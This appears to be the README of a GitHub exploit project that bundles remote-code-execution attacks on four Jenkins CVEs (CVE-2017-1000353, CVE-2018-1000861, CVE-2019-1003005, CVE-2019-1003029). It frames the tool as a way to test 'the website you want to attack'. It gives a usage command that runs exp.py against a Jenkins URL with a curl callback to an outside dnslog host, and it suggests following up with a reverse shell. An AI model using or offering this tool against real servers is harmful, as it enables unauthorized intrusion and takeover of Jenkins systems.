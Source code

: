# Jenkins-Rce-2017-2018-2019



- ## Introduction

     There are four CVEs in this project ,which includes CVE-2017-1000353,CVE-2018-1000861, CVE-2019-1003005 and CVE-2019-1003029. It means you can use this project to test if the website you want to attack  has these Jenkins vulnerabilities. You can try curl online dnslog platform firstly to test it. If it works, you can do further operations,such as reverse shell and so on.

  

- ## The environment this project needed 

  1. Java

  2. python 2.7 (exp.py needed)

  3. python 3.5 (exploit.py needed)

     

- ## Useage:

```
py -2  exp.py http://jenkins/ 'curl 123.dnslog.cn'
```

**Annotation:**  You should use python 2.7 to run exp.py firstly, and then it will invoke other scripts to automatically test these vulnerabilities.

### References:

https://github.com/orangetw/awesome-jenkins-rce-2019
https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2017-1000353

